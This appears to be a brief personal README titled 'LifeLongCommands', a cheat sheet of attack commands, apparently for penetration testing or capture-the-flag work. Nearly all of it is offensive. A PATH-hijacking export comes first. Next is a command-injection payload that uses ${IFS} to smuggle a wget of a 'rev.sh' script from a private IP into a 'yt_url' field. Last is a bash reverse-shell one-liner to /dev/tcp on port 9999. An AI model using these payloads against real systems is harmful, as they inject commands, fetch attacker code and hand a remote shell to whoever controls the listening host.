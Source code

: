 # LifeLongCommands
All command needed to be noted

# Binary Execution Path changing 
export PATH=/home/somedirectory:$PATH

# Command injection
yt_url=;wget${IFS}http://10.4.39.84:8000/rev.sh;

# Reverse Shell cheatsheet

bash -i >& /dev/tcp/$myip/9999 0>&1
